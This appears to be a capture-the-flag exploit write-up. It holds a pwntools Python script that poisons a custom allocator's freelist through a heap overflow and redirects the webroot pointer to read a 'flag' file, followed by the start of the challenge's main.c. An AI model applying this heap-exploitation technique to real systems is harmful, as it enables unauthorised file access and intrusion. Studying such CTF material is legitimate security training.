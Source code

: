 ```python


w_real_addr = p64(velf.symbols['webroot'] - 1)
w_addr_pad = "X" * (bins[1][0] - strlen(w_real_addr))
w_addr =  w_addr_pad + w_real_addr

addr = velf.symbols["malloc_freelist_heads"] - len(webroot) - len(w_addr_pad)
addr -= 1

vp.sendline("get")
vp.recvline()
vp.sendline(index)
for _ in range(9):
    vp.recvline()

pl = "A" * bins[9][1]
pl += "\x00" * bins[9][2]
pl += p64(addr)
if "\n" in pl:
    log.warn("newline in payload!\n" + hexdump(pl))
log.info("triggering heap overflow")
vp.sendline(pl)
vp.recvline()

vp.sendline("language")
vp.sendline("Y" * bins[1][0])  # allocate in bin 1, free(NULL)

# top of freelist[1] is now addr

vp.sendline("get")
vp.recvline()
vp.sendline(w_addr)
vp.recvline()

vp.sendline("language")
vp.sendline(p64(0x004014a2))  # just a pointer to a NULL byte

vp.sendline("get")
vp.sendline("/" * (bins[1][0] - 4) + "flag")

vp.interactive()

vp.sendline("quit")
vp.close()
```

and also the `main.c` source code

```c
#include <x86_64-linux-gnu/asm/unistd_64.h>
#include <asm-generic/mman-common.h>
#include <asm-generic/fcntl.h>

#define size_t unsigned long
#define NULL ((void*)0)
#define false 0
#define true 1
#define bool int

#define STDIN_FD 0
#define STDOUT_FD 1
#define STACK_FD 3


```